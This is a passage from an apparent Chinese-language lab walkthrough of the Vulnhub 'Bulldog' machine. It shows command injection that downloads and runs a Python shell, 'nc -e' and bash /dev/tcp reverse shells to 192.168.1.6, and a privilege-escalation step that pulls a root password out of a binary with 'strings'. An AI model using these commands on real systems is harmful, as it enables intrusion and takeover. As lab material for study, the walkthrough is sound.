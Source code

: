 在`web-shell`界面执行：

```
pwd&wget http://192.168.1.6/python-shell.py
pwd&python python-shell.py
```

我实测也没有成功，但是大佬有成功的

3.使用`nc`反弹(需要靶机上有 nc)

```
nc -e /bin/bash 192.168.1.6 4444
```

4.通过`echo`反弹(成功)

```
echo 'bash -i >& /dev/tcp/192.168.1.6/4444 0>&1' | bash
```

![][20]

## 0x02 提权 root

> 发现 home 目录下有一个 bulldogadmin，那么优先查看这个目录。结果执行 ls
> 命令时没有发现任何东西，然后我执行了 ls -a，发现了隐藏的文件夹。

![][21]

我们进入这个`.hiddenadmindirectory`文件夹，发现一个注释文件：

![][22]

用`file`命令查看下这个用户文件是啥：

![][23]

发现是个`ELF`文件，`ELF`文件简单来说就是 Linux 的主要可执行文件格式。

执行`strings customPermissionApp`，有很多的字符串，其中有一段引起了我的注意：

```
GLIBC_2.2.5
UH-H
SUPERultH
imatePASH
SWORDyouH
CANTget
dH34%(
AWAVA
AUATL
[]A\A]A^A_
Please enter a valid username to use root privileges
        Usage: ./customPermissionApp <username>
sudo su root
;*3$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crtstuff.c
```


[1]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_212057.png
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_212057.png
[4]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_212957.png
[5]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200117_215229.png
[6]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_100320.png
[7]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101020.png
[8]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101602.png
[9]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101659.png
[10]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_101842.png
[11]: https://www.cmd5.com/
[12]: https://www.somd5.com/
[13]: https://hashkiller.co.uk/
[14]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_103812.png
[15]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_103022.png
[16]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_104020.png
[17]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_104206.png
[18]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_105200.png
[19]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_110707.png
[20]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_111349.png
[21]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_112502.png
[22]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_113108.png
[23]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_113331.png
[24]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_115041.png
[25]: https://img.soapffz.com/archives_img/2020/01/17/archives_20200122_115421.png
[26]: https://pavornoc.wordpress.com/2017/12/14/vulnhub-bulldog-walkthrough/
[27]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ